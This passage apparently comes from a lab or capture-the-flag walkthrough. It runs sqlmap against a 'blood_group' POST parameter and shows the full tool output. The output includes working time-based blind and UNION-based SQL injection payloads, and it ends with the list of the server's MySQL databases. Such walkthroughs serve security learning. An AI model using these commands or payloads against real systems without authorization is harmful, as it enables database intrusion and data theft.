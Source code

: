 Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:  

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`
	 `-r` to read the file;
	 `-p` to supply the vulnerable parameter; 
	 `--dbs` to enumerate the database.

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group --dbs    #!!!!
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```
